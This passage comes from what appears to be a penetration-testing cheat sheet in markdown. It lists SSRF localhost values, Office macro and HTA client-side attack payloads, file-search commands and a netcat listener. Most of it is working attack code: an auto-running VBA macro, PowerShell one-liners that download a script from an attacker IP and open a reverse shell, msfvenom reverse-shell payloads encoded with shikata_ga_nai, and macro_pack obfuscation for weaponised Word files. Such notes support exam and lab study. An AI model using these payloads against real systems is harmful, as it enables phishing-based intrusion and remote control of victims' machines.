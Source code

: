     - `select {Column} from {Table}`
### SSRF
- Localhost
    - `localhost`
    - `127.0.0.1`, `127.0.0.255`, `127.255.254.255`
## Client Side Attack
### Office Macro
- File type : `docm` or `doc`, doesn't support `docx`
- Open cmd when start
    ```vba
    Sub AutoOpen()
        MyMacro
    End Sub
    Sub Document_Open()
        MyMacro
    End Sub
    Sub MyMacro()
        Dim str As String
        str = "cmd /c whoami && pause"
        CreateObject("Wscript.Shell").Run str
    End Sub
    ```
    - cmd path will at `system32`
    - shell : `str = powershell iex (New-Object Net.WebClient).DownloadString('http://{IP}/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress {IP} -Port {PORT}`
- Reverse shell 1
    - `msfvenom -p windows/shell_reverse_tcp LHOST={IP} LPORT=443 -e x86/shikata_ga_nai -f vba > shell.vba`
        - First Half to macro
        - Second Half to word doc
- Reverse shell 2 (macro_pack)
    - `msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.247 LPORT=443 -e x86/shikata_ga_nai -f vba > shell.vba`
    - [macro_pack](https://github.com/sevagas/macro_pack)
    - `macro_pack.exe -f shell.vba -o -G meow.doc`
### HTA (HTML Application)
- VBS RCE
    - ` <scRipt language="VBscRipT">CreateObject("WscrIpt.SheLL").Run "powershell iex (New-Object Net.WebClient).DownloadString('http://192.168.119.132/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 192.168.119.132 -Port 53"</scRipt>`
## Shell
### Linux Shell
- Find File
    - `find  / -iname {file_name} -print 2>/dev/null`
	- `du -a 2>/dev/null | grep {file_name}`
	- `tar cf - $PWD 2>/dev/null | tar tvf - | grep {file_name}`
### Windows Shell
- List all data
	- `dir /a`
- Short name
	- `dir /x` 
- Find File
    - `dir {file_name} /s /p`
### Reverse Shell - Linux
- Prepare
	- `nc -nvlp {port}`
	- `nc -vlk {port}`